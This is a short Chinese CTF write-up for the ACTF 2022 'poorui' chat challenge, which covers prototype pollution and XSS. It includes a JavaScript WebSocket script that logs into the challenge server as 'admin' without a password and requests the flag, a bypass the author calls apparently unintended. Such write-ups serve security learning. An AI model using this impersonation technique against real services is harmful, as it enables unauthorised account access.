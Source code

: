 ## 题目介绍

[附件](/CTF_ATTACHMENTS/2022/ACTF-poorui.zip)

```
Chatting with each other!
Attachment is update’d at 2022-06-26 11:34 (UTC+8)
http://124.71.181.238:8081/
```

考点：
- 原型链污染
- XSS

## Writeup

admin可以直接挤掉，然后直接getflag就行了，应该是非预期吧

> 看了下zer0pts的wp，果然是非预期，需要用原型链污染
> https://nanimokangaeteinai.hateblo.jp/entry/2022/06/28/045459

```javascript
var ws = new WebSocket("ws://124.71.181.238:8081/");

ws.onopen = () => {

    var login = JSON.stringify({ "api": "login", "username": "admin" })
    ws.send(login)
    var ctx = JSON.stringify({ "rdd": "wenhaoa"})
    var data = { "api": "getflag", "to": "flagbot", "msg": { "type": "tpl", "data": { "tpl": "test.tpl", "ctx": `${ctx}` } } }
    ws.send(JSON.stringify(data));
}

ws.onmessage = function (evt) {
    var received_msg = evt.data;
    document.write("received_msg.... ", received_msg, "<br>")
};
ws.onclose = function () {
    // 关闭 websocket
    document.write("close.... ", "<br>")
};


document.write("send.... login <br>")
```